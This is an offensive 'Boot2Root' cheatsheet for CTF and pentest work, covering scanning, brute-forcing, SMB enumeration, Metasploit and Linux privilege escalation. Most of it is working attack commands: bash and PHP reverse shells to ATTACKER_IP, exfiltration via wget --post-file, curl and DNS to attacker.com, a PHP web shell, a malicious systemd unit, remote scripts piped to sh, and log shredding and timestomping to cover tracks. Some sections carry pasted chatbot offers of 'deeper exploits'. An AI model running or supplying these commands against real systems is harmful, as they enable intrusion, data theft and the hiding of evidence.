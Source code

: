 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation

<details>
  <summary>
  
    
  ###  SUID abusing
  </summary>

  ```bash
find / -type f -perm -4000 -ls 2>/dev/null
```
For python ->    `266770   3580 -rwsr-sr-x   1 root     root        3665768 Aug  4  2020 /usr/bin/python`

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
</details>


<details>
  <summary>

  
  ### Privilege Escalation via Sudo Vi (CVE-2019-14287)
  
  </summary>
  
### **1. Checking Sudo Permissions**
Ran `sudo -l` and found:
```bash
User gwendoline may run: (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
→ **Vi can be executed as any user except root** (`!root`) without a password.

---

### **2. Exploiting Vi to Gain Root Shell**
#### **Method 1: User ID Manipulation (CVE-2019-14287)**
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
- **Why it works**:  
  `-u#-1` triggers an integer underflow, resolving to **UID 0 (root)** despite `!root` restriction.

#### **Method 2: Vi Shell Escape**
Inside Vi:
```vim
:!/bin/bash
```
→ Spawns a **root shell** (GTFOBins technique).

---

### **3. Why This Works**
| Vulnerability | Impact | Tool Reference |
|--------------|--------|----------------|
| **CVE-2019-14287** | Bypasses `!root` restriction via `-u#-1` trick | [Sudo Security Advisory](https://www.sudo.ws/alerts/unescape_overflow.html) |
| **Vi Shell Escape** | Arbitrary command execution as root | [GTFOBins: vi](https://gtfobins.github.io/gtfobins/vi/) |
| **NOPASSWD Misconfiguration** | No password required for escalation | |

---

### **4. Mitigation**
1. **Update Sudo**: Patch to version **1.8.28+** to fix CVE-2019-14287.
2. **Restrict Sudoers**:
   ```bash
   # Replace:
   (ALL, !root) NOPASSWD: /usr/bin/vi
   # With:
   (gwendoline) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
   ```
3. **Audit**: Regularly run `sudo -l` for all users.

---

### **5. Impact: Critical (Root Access)**
- **Proof of Concept**:
  ```bash
  whoami  # Output: root
  cat /root/root.txt
  ```

</details>

<details>
  <summary>
    
### Privilege Escalation via `sudo wget` Exploitation
    
  </summary>


#### **1. Checking Sudo Permissions**  
- Ran `sudo -l` and found:  
  ```bash
  User jessie may run: (root) NOPASSWD: /usr/bin/wget
  ```
  → **`wget` can be executed as root without a password.**  

#### **2. Exploiting `wget` to Read Root Files**  
- **Method 1**: Directly read `/root/root_flag.txt`:  
  ```bash
  sudo wget -i /root/root_flag.txt  # Uses `-i` to read the file
  ```
- **Method 2**: Exfiltrate the file via HTTP (if `-i` fails):  
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://ATTACKER_IP:8000
  ```
  → **Check HTTP server logs for the flag.**  

#### **3. Why This Works**  
- **GTFOBins**: `wget` with `sudo` can read arbitrary files (`-i` or `--post-file`).  
- **No Password**: `NOPASSWD` allows privilege escalation without authentication.  

#### **4. Mitigation**  
- **Restrict `sudo`**: Avoid `NOPASSWD` for commands like `wget`.  
- **Audit**: Regularly check `sudo -l` for all users.  

**Impact**: Critical (root access via file read/write).  
**Tool Reference**: [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/).  

--- 

**Next Steps**:  
- Try **writing files** (e.g., `/etc/sudoers`) for a full root shell.  
- Use `sudo wget` to fetch and execute a reverse shell script.  

Need a deeper exploit? Let me know! 🔥
</details>

<details>
  <summary>

    
  ### Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
```bash
find / -type f -name user.txt -ls 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>

<details>
  <summary>

    
  ### **Ultimate Linux Post-Exploitation & Flag Hunting Guide**  

  </summary>


---

*(CTF | Bug Bounty | Pentest | Red Team)*  

## **🔍 1. Finding Flags/Sensitive Files**  
### **A. Quick File Searches**
```bash
# Find flags by name/extension  
find / -type f \( -name "*flag*" -o -name "*.txt" -o -name "*.conf" \) 2>/dev/null  

# Find recently modified files (last 24h)  
find / -type f -mtime -1 2>/dev/null  

# Find hidden files  
find / -name ".*" -ls 2>/dev/null  
```

### **B. Content Hunting (Passwords, API Keys)**
```bash
# Search for common patterns  
grep -rniE "password|api[_-]?key|jwt|secret|flag{" /etc /home /var/www 2>/dev/null  

# Database credentials  
grep -rni "mysql://\|postgresql://" / 2>/dev/null  
```

### **C. Critical Paths**
| Path                 | Purpose                          |
|----------------------|----------------------------------|
| `/home/*/.ssh/`      | SSH private keys                 |
| `/var/www/html/`     | Web app configs (Bug Bounty)     |
| `/etc/shadow`        | Password hashes (Pentest)        |
| `/opt/backups/`      | Database/config backups          |

---

## **🚫 2. Bypassing Restrictions**  
### **A. Read Files Without `cat`**
```bash
# Basic alternatives  
less /path/file      # Interactive  
tail -n 50 /path/file  # Last 50 lines  

# Scripting  
python3 -c "print(open('/etc/passwd').read())"  
perl -pe 'print' /path/file  

# Binary/encoded  
strings /path/file   # Extract text  
base64 /path/file | base64 -d  # Encode→Decode  
```

### **B. Wildcard Bypass**
```bash
/bin/?at /path/file   # Tries /bin/cat, /bin/bat  
```

### **C. Stealthy Exfiltration**
```bash
# DNS (Attacker: `sudo tcpdump -i eth0 udp port 53`)  
xxd -p /path/file | while read line; do dig "$line.domain.com"; done  

# HTTP (Quick)  
curl -X POST --data-binary @/path/file http://attacker.com  
```

---

## **🛠️ 3. Privilege Escalation**  
### **A. Quick Checks**
```bash
# Sudo abuse  
sudo -l  # Check ALL/NOPASSWD  

# SUID/SGID binaries  
find / -perm -4000 -o -perm -2000 2>/dev/null  

# Writable cron jobs  
ls -la /etc/cron* /var/spool/cron  
```

### **B. Kernel Exploits**
```bash
uname -a  # Check version  
searchsploit linux kernel 5.4.0  # Find exploits  
```

### **C. Automated Tools**
```bash
# LinPEAS (Full audit)  
curl -L https://linpeas.sh | sh  

# LinEnum (Quick enum)  
./LinEnum.sh -t  
```

---

## **📜 4. Decoding Data**  
```bash
# Base64  
echo "RkxBR3tleGFtcGxlfQ==" | base64 -d  

# Hex  
echo "464C4147" | xxd -r -p  

# ROT13  
echo "SYNT" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  
```

---

## **🚪 5. Shell Escape**  
```bash
# Spawn TTY shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# Reverse shell  
bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'  
```

---

## **🧹 6. Covering Tracks**  
```bash
# Clear logs  
shred -u /var/log/auth.log  

# Timestomp  
touch -r /etc/passwd /root/.bash_history  
```

---

## **🎯 Pro Tips**  
- **CTFs**: Check `/tmp/`, `/opt/`, and home directories.  
- **Bug Bounty**: Hunt for `.env`, `config.php.bak`.  
- **Pentest**: Always check `sudo -l` and SUID binaries first.  

---

### **📥 One-Pager Cheatsheet**  
```markdown
1. Find flags: `find / -name "*flag*" 2>/dev/null`  
2. Read files: `less /path/file` or `python3 -c "print(open('f').read())"`  
3. PrivEsc: `sudo -l`, `find / -perm -4000`  
4. Decode: `echo "BASE64" | base64 -d`  
5. Shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`  
```


</details>


<details>
  <summary>

  ### Detailed Guide: RSA Private Key 

  </summary>


## **1. Introduction to RSA Private Keys**
An **RSA private key** is a cryptographic key used for secure authentication, typically in SSH, SSL/TLS, and encrypted communications. If exposed, it can lead to **unauthorized system access**, making it a critical finding in security assessments.

### **Key Characteristics**
- **Format**: PEM (Base64-encoded, with `-----BEGIN RSA PRIVATE KEY-----` header).
- **Usage**: SSH logins, decrypting data, or signing certificates.
- **Common Locations**:
  - Web server leaks (`/id_rsa`, `/backup/id_rsa.bak`).
  - Git repository exposures (`.git/config`, `~/.ssh/`).
  - Misconfigured cloud storage (AWS S3, GCP buckets).

---

## **2. Exploitation in Penetration Testing**
### **Step 1: Identify & Validate the Key**
- **Check if the key is valid**:
  ```bash
  openssl rsa -in id_rsa -check
  ```
- **If passphrase-protected**, crack it using:
  ```bash
  ssh2john id_rsa > id_rsa.hash  
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```

### **Step 2: Use the Key for SSH Access**
- **Restrict permissions** (SSH requires strict file modes):
  ```bash
  chmod 600 id_rsa
  ```
- **Attempt SSH login**:
  ```bash
  ssh -i id_rsa user@target_ip
  ```
- **Common Usernames** (if unknown):
  ```bash
  for user in $(cat users.txt); do ssh -i id_rsa $user@target_ip -o ConnectTimeout=2; done
  ```

### **Step 3: Privilege Escalation**
- Check `sudo -l` for misconfigurations (as in your `wget` case).
- Look for **writable cron jobs**, **SUID binaries**, or **kernel exploits**.

---

## **3. Bug Bounty Implications**
### **Where to Find Exposed Keys**
- **GitHub/GitLab Repos**: Search for `-----BEGIN RSA PRIVATE KEY-----`.
- **Exposed Backups**: `/backup`, `/www/backup`, `.bak` files.
- **Logs & Environment Variables**: Check `/proc/self/environ`, error logs.

### **Impact**
- **Critical Severity**: Unauthorized server access → data breaches.
- **Report Template**:
  ```
  Title: Exposed RSA Private Key Leading to Server Compromise  
  Description: A private SSH key was found at [URL], allowing unauthorized access to [service].  
  Proof: [Attach key + successful SSH login screenshot]  
  Remediation: Revoke the key, enforce key rotation, disable passwordless auth.  
  ```

---

## **4. CTF-Specific Techniques**
### **Common CTF Challenges**
1. **Hidden Key in Web Source**  
   - Use `curl` or `view-source:` to find keys in HTML comments.
2. **Steganography in Images**  
   - Extract keys using `steghide`, `binwalk`, or `strings`.
3. **Abusing Weak Permissions**  
   - If you get a low-priv shell, check `/home/*/.ssh/` for keys.

### **Automated Tools**
- **TruffleHog**: Scans Git repos for secrets.
- **GitLeaks**: Detects exposed keys in version control.
- **ssh-audit**: Checks SSH server vulnerabilities.

---

## **5. Defensive Measures (For Admins)**
### **Preventing Key Leaks**
- **Never store keys in web directories**.
- **Use SSH certificates** instead of raw keys.
- **Rotate keys periodically** and revoke compromised ones.

### **Hardening SSH**
```ini
# /etc/ssh/sshd_config
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

---

## **6. Legal & Ethical Considerations**
- **Penetration Testing**: Only test authorized systems.
- **Bug Bounty**: Follow the program’s rules (don’t exfiltrate data).
- **CTFs**: Keys are intentionally placed—don’t attack real systems.

---

## **7. Conclusion**
- **Pentest**: Use exposed keys for initial access → escalate privileges.
- **Bug Bounty**: Report exposed keys immediately (critical finding).
- **CTF**: Often a shortcut to flags—check backups, source code, and logs.

### **Final Command Cheatsheet**
```bash
# Test key validity
openssl rsa -in id_rsa -check

# Crack passphrase-protected key
ssh2john id_rsa > hash && john --wordlist=rockyou.txt hash

# SSH login attempt
chmod 600 id_rsa && ssh -i id_rsa user@target
```

</details>

<details>
  <summary>

  ### Advanced PHP Reverse Shells & TTY Stabilization

  </summary>



---

*(Pentest/Bug Bounty/CTF Field Manual)*  

## **1. PHP Reverse Shell Techniques**
### **A. Basic Reverse Shell (One-Liner)**
```bash
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Why Use This?**  
- Minimal footprint, works on most PHP-enabled systems  
- Bypasses restrictive environments where full shells are blocked  

### **B. Advanced Proc_Open Variant**
```bash
php -r '$sock=fsockopen("10.0.0.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
**Advantages:**  
- More reliable for complex interactions  
- Better handling of I/O streams  

### **C. Web Shell Integration**
```php
<?php system($_GET['cmd']); ?>
```
**Deployment:**  
1. Upload to vulnerable web directory (e.g., `/uploads/shell.php`)  
2. Execute commands via:  
   ```http
   http://target.com/uploads/shell.php?cmd=whoami
   ```

---

## **2. Listener Configuration**
### **Netcat (Basic)**
```bash
nc -nvlp 4444
```
**Pro Tip:** Use `-v` for verbose mode to confirm connections.

### **Multi-Handler (Recommended)**
```bash
# In Metasploit:
msf6 > use multi/handler
msf6 > set payload php/reverse_php
msf6 > set LHOST YOUR_IP
msf6 > set LPORT 4444
msf6 > exploit
```
**Benefits:**  
- Auto-handles session restoration if disconnected  
- Built-in logging  

---

## **3. TTY Stabilization Methods**
### **A. Python (Gold Standard)**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Follow-up:**  
```bash
CTRL+Z  # Background the shell
stty raw -echo; fg  # Enable raw mode
export TERM=xterm  # Enable full terminal features
```

### **B. Alternatives When Python Unavailable**
| Command | Use Case |
|---------|----------|
| `script -qc /bin/bash /dev/null` | Systems with `script` binary |
| `socat exec:'bash -li' pty,stderr,setsid,sigint,sane` | Requires socat installation |
| `perl -e 'exec "/bin/bash";'` | Perl-based systems |

### **C. Full Upgrade Sequence**
1. Spawn TTY  
2. Set terminal type:  
   ```bash
   export TERM=xterm-256color
   ```
3. Fix stty:  
   ```bash
   stty rows 55 columns 238  # Adjust to your terminal size
   ```

---

## **4. OPSEC Considerations**
### **A. Clean Execution**
```bash
# Disable history in current session
unset HISTFILE
```

### **B. Log Evasion**
```bash
# Overwrite PHP error logs after exploit
echo "" > /var/log/apache2/error.log
```

### **C. Traffic Obfuscation**
```bash
# Encrypted reverse shell (OpenSSL)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_IP:4444 > /tmp/s; rm /tmp/s
```

---

## **5. Troubleshooting Guide**
| Issue | Solution |
|-------|----------|
| **Shell dies immediately** | Use `while true; do nc -lvp 4444; done` on listener |
| **No Python/socat** | Try `awk 'BEGIN {system("/bin/bash")}'` |
| **Firewall blocking** | Use common ports (80, 443) or ICMP/DNS tunneling |

---

## **6. Real-World Applications**
### **Bug Bounty**  
- Use in blind RCE scenarios (e.g., Log4j exploits)  
- Combine with SSRF to pivot internally  

### **CTF Challenges**  
- Bypass restricted shells via PHP wrappers:  
  ```bash
  php -r "include('data://text/plain,<?php system(\$_GET[\"cmd\"]) ?>');"
  ```

### **Pentest Engagements**  
- Chain with credential theft:  
  ```bash
  php -r 'echo file_get_contents("/etc/passwd");'
  ```

---

## **7. Reference Cheatsheet**
```markdown
1. Start Listener:    `nc -nvlp 4444`
2. PHP Shell:        `php -r '$s=fsockopen("IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
3. Stabilize:        `python3 -c 'import pty; pty.spawn("/bin/bash")'`
4. Full Upgrade:     `export TERM=xterm; stty raw -echo; fg`
```

---

**Pro Tip:** Bookmark this guide and save the cheatsheet as `shells.txt` in your toolkit. For a **PDF version** with clickable TOC, reply "PDF please"!  

Need Windows reverse shell equivalents? Let me know. 🚀
</details>
